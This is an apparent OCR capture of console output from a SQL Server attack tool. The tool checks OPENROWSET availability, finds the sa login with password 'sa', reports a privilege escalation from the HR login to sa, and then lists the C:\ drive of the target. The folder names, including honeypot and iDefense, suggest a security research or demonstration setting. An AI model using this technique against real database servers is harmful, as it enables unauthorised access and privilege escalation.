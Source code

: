 `                  [INFO] Checking OpenRowSet availibility - please wait...`
`                        [INFO] Current user login: [HR]`
`                        [FOUND] OPENROWSET available - (login [sa] `

| password \[sa\])

`                        [INFO] Privilege escalation - from [HR] to [sa]`
`                                `
`                        ===========================================================================`

`                        Volume in drive C has no label.`
`                        Volume Serial Number is 00BC-6F73`
`                                `
`                        Directory of c:\`
`                                `
`                        11/21/2005  06:36p      `

<DIR>

403679d1f6ca54e5384256556434111d

`                        07/14/2006  10:49a      `

<DIR>

Documents and Settings

`                        07/22/2005  02:21p      `

<DIR>

honeypot

`                        07/21/2005  04:38p      `

<DIR>

iDefense

`                        03/08/2002  08:23a      `

<DIR>

Inetpub

`                        07/14/2006  03:21p      `

<DIR>

Program Files

`                        08/07/2006  04:11p                 622 tmp.txt`
`                        11/28/2005  06:06p      `

<DIR>

WINNT

`                                       1 File(s)            622 bytes`
`                                       7 Dir(s)     183,328,768 bytes free`
`                                `
`                                 `
`                        ===========================================================================`
